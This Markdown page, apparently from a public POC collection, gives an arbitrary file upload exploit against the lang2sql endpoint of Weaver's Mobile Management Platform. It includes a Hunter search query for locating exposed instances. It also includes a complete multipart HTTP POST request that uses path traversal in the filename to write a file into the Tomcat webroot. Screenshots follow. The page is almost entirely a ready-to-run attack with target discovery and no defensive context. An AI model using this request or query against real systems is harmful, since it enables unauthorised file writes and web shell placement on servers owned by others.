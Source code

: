 ## 泛微移动管理平台lang2sql接口任意文件上传

## hunter

```
web.title="移动管理平台"
```


## poc
```
POST /emp/lang2sql?client_type=1&lang_tag=1 HTTP/1.1
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Host: 目标地址
Content-Length: 202
Expect: 100-continue
Connection: close

------WebKitFormBoundarymVk33liI64J7GQaK
Content-Disposition: form-data; name="file";filename="../../../../appsvr/tomcat/webapps/ROOT/9SIpL.txt"

b9Q2Itmn1
------WebKitFormBoundarymVk33liI64J7GQaK--
```
![0302764cce0476f1d9d11374c18c024b](https://github.com/wy876/POC/assets/139549762/84018feb-2591-45a6-bf0f-663f32e7d98f)

![5cd4ffd5a4d86ad03d7208e3cc646f86](https://github.com/wy876/POC/assets/139549762/62003fb2-0dea-4dde-87ad-4c4165cc55d8)
